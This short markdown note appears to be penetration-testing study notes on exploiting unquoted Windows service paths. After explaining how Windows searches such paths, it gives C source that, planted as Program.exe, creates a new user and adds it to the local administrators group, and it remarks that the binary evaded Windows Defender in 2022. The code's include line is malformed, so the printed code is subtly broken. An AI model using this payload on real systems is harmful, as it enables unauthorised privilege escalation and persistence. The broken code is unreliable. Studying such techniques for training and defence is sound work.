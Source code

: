 # Exploiting Unquoted Paths

When Windows encounters an unquoted path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\Application Path\App.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\Application.exe`
* `C:\Program Files\Application Path\App.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

* [TryHackMe: Jr. Penetration Tester](https://tryhackme.com/path/outline/jrpenetrationtester)

## Exploiting Services Running as SYSTEM

If a service is running as SYSTEM, the following code can be inserted (as `Program.exe` or `Application.exe` in the example above) and will add a new user with admin privileges. (`USERNAME` and `PASSWORD` obviously need to be updated to fit the current use case.)

```c
#include <stdlib.h

int main() {
	int i;

	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup administrators USERNAME /add");

	return 0;
}
```

As of August 17, 2022, binaries compiled from this code are *not* detected as malicious by Windows Defender.

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
